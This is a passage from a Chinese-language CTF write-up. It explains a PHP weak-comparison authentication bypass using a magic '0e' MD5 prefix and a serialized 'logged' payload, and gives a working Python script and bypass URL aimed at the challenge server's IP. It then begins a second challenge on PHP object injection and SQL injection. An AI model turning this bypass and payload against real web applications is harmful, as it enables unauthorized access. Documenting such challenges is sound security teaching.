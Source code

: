 ```
                     */
                    if($this->data['logged']===true){
                        $this->__auth = true;
                    }
                }
            }
        }
    }
```
条件是$realSign == $signature，而且unserialize($payload) = array('logged'=>true)  
$realSign是取MD5的前6位，再考虑到是弱类型比较，可以juggle一下，让$realSign的前6位是0e+4个数字
$signature = '0e' + '1'*30  
然后在js/functions.js中找到了panel的入口
写个脚本juggle一下  

```
# python 2.7
import requests, base64

url = r'http://46.101.96.182/panel/index?auth='
#url = r'http://127.0.0.1:8888/test.php?auth='
signature = '0e'+'1'*30
payload = 'a:1:{s:6:"logged";b:1;}'
for i in range(2185, 2186):
    print url+base64.b64encode(payload + str(i))+signature
    print i
    r = requests.get(url+base64.b64encode(payload + str(i))+signature)
    content = r.content
    if content.find('login required') == -1:
        print url+str(i)+signature
        exit()

```
得到了http://46.101.96.182/panel/index?auth=YToxOntzOjY6ImxvZ2dlZCI7YjoxO30yMTg10e111111111111111111111111111111  
这里联想一下估计是函数名对应路径
访问http://46.101.96.182/panel/flag?auth=YToxOntzOjY6ImxvZ2dlZCI7YjoxO30yMTg10e111111111111111111111111111111
得到flag

## 2nd Ultra Secured 
#### key:php对象注入读取文件，对象注入sql 查询参数实现sql注入
接着上一道题,得到的文件中有这个函数可以下载源码
```
function downloadSource(){
        if(!$this->__auth){
            echo 'login required';
            return false;
        }

        $file = '../source.zip';
        if (file_exists($file)){
            header('Content-Description: File Transfer');
            header('Content-Type: application/x-gzip');
            header('Content-Disposition: attachment; filename="'.basename($file).'"');
            header('Expires: 0');
            header('Cache-Control: must-revalidate');
            header('Pragma: public');
            header('Content-Length: ' . filesize($file));
            readfile($file);
            exit;
        }
    }
```